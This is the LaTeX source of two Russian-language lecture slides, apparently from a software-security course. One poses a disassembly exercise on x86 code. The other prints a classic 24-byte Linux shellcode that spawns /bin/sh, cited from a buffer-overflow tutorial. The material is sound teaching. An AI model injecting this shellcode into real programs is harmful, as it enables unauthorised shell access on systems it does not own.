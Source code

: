 \documentclass{beamer}
\begin{document}
    \begin{frame}[fragile]
    \frametitle{{Дизассемблирование (crack)}}
        Что делает эта программа?
\begin{verbatim}
8048464:   55            push   %ebp
8048465:   89 e5         mov    %esp,%ebp
8048467:   83 e4 f0      and    $0xfffffff0,%esp
804846a:   83 ec 20      sub    $0x20,%esp
804846d:   c7 44 24 14   movl   $0x0,0x14(%esp)
8048474:   00 
8048475:   c7 44 24 18   movl   $0x0,0x18(%esp)
804847c:   00 
804847d:   eb 3c         jmp    80484bb <main+0x57>
804847f:   e8 1c ff ff   call   80483a0 <__ctype_b_loc@plt>
8048484:   8b 00         mov    (%eax),%eax
8048486:   8b 54 24 1c   mov    0x1c(%esp),%edx
804848a:   01 d2         add    %edx,%edx
804848c:   01 d0         add    %edx,%eax
804848e:   0f b7 00      movzwl (%eax),%eax
\end{verbatim}
\end{frame}
    \begin{frame}[fragile]
    \frametitle{Внедрение кода (exploit)}
    \begin{block}{Пример Шелл-кода}
    \begin{verbatim}
http://www.enderunix.org/documents/eng/bof-eng.txt 
char sc[]=              /* 24 bytes                 */
    "\x31\xc0"             /* xorl    %eax,%eax     */
    "\x50"                 /* pushl   %eax          */
    "\x68""//sh"           /* pushl   $0x68732f2f   */
    "\x68""/bin"           /* pushl   $0x6e69622f   */
    "\x89\xe3"             /* movl    %esp,%ebx     */
    "\x50"                 /* pushl   %eax          */
    "\x53"                 /* pushl   %ebx          */
    "\x89\xe1"             /* movl    %esp,%ecx     */
    "\x99"                 /* cdql                  */
    "\xb0\x0b"             /* movb    $0x0b,%al     */
    "\xcd\x80"             /* int     $0x80         */
;
    \end{verbatim}
    \end{block}
\end{frame}
\end{document}

